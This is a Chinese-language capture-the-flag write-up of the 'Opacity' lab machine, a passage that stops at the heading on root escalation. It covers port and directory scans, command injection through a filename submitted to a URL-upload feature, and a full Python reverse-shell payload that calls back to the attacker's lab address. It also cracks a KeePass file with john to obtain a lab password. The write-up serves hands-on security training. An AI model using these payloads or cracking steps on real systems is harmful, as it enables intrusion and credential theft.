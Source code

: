 ```yaml
---
sidebar_position: 7
tags: [Easy, Linux, 信息泄露, 密码破解-哈希, 文件上传, SUDO]
title: Opacity
sidebar_label: Opacity
---
```

# Opacity
## 端口扫描
```bash
root@ip-10-10-250-159:~/opacity# nmap -sT -p- --min-rate 1000 10.10.150.119

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-05 02:52 BST
Nmap scan report for ip-10-10-150-119.eu-west-1.compute.internal (10.10.150.119)
Host is up (0.0066s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:CE:F4:4E:E5:7D (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 7.73 seconds
root@ip-10-10-250-159:~/opacity# nmap -sTCV -p 22,80,139,445 --min-rate 1000 10.10.150.119

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-05 02:53 BST
Nmap scan report for ip-10-10-150-119.eu-west-1.compute.internal (10.10.150.119)
Host is up (0.00018s latency).

PORT    STATE SERVICE       VERSION
22/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http          Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn?
| fingerprint-strings: 
|   SMBProgNeg: 
|_    SMBr
445/tcp open  microsoft-ds?
| fingerprint-strings: 
|   SMBProgNeg: 
|_    SMBr
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
```
## SMB
因为开启了 SMB 服务, 所以尝试枚举看看有没有什么共享

![20240526230658](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526230658.png)

## 80
访问该站点发现是一个登陆窗口, 查看一圈后并没有发现扫描可利用的位置, 同时我进行了目录扫描
```bash
root@ip-10-10-250-159:~/opacity# gobuster dir -u http://10.10.150.119/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.150.119/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/05 02:55:20 Starting gobuster
===============================================================
/login.php (Status: 200)
/index.php (Status: 302)
/css (Status: 301)
/logout.php (Status: 302)
/cloud (Status: 301)
```

在访问 `/cloud` 目录时我发现是一个图片上传, 其功能为接收传入的 URL 并将其下载到本地

![20240526230730](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526230730.png)

:::tip
- 白名单限制
:::

我在此尝试了很久, 突然想到可以将文件名设置为命令, 由此尝试命令注入, 所以我一个特殊文件名的文件, 结果发现确实可以实现基于文件名的命令注入, 提交文件 URL: ``http://10.10.250.159:8000/`whoami`.png``

![20240526230822](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526230822.png)

## 后渗透
### www-data
借助上面的命令注入漏洞, 我尝试获取了反向 Shell
```bash
http://10.10.250.159:8000/`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.250.159",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`.png
```

![20240526231233](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526231233.png)

### www-data —> sysadmin
在用户 sysadmin 家目录, 我发现了一个文件夹名为 scripts , 同时该文件隶属于 root, 所以我感觉这就是攻击点, 但是这其中的文件我没有权限修改, 需要先提到 sysadmin 权限,

接着我便开始了寻找 sysadmin 密码的路程, 但是我在 /var 下发现了一个 backup.zip 文件, 根据时间我发现这个文件时每一分钟生成一次,所以我知道这是 root 用户执行的定时任务

```bash
(remote) www-data@opacity:/var/backups$ date
Tue Sep  5 02:36:28 UTC 2023
(remote) www-data@opacity:/var/backups$ ls -al
total 84
drwxr-xr-x  2 root root  4096 Sep  5 02:36 .
drwxr-xr-x 14 root root  4096 Jul 26  2022 ..
-rw-r--r--  1 root root 39639 Jul 26  2022 apt.extended_states.0
-rw-r--r--  1 root root 33987 Sep  5 02:36 backup.zip
(remote) www-data@opacity:/var/backups$ date
Tue Sep  5 02:37:02 UTC 2023
(remote) www-data@opacity:/var/backups$ ls -al
total 84
drwxr-xr-x  2 root root  4096 Sep  5 02:37 .
drwxr-xr-x 14 root root  4096 Jul 26  2022 ..
-rw-r--r--  1 root root 39639 Jul 26  2022 apt.extended_states.0
-rw-r--r--  1 root root 33987 Sep  5 02:37 backup.zip
```
由此我上传了 pspy 进行了进程监控, 最终证实了是一个每分钟执行一次的脚本

![20240526231323](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526231323.png)

同时所执行的脚本内容我们没有权限查看, 但是 sysadmin 用户有, 所以这是问题的关键, 我们只需要提权到 sysadmin 就可以完成靶机

![20240526231334](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526231334.png)

于是我开始查找属于 sysadmin 用户或者用户组的文件, 最终发现一个 kdbx 文件, 这是一个密码库文件, 这里面应该有用户 sysadmin 的密码

![20240526231345](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526231345.png)

将其下载到本地并使用 john  进行破解, 最终获取都到 kdbx 的密码, 使用工具查看我们的密码库就可以获取到 sysadmin 的密码 `Cl0udP4ss40p4city#8700`

```bash
root@ip-10-10-250-159:~/opacity# python2 keepass2john.py dataset.kdbx 
dataset:$keepass$*2*34464*222*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4
root@ip-10-10-250-159:~/opacity# python2 keepass2john.py dataset.kdbx  > hash.txt
root@ip-10-10-250-159:~/opacity# john hash.txt --wordlist=`locate rockyou.txt`
741852963  # 这个破解密码要很长时间, 直接就贴出来吧
```

使用这个密码登陆就可以获取到 sysadmin 权限

### sysadmin —> root
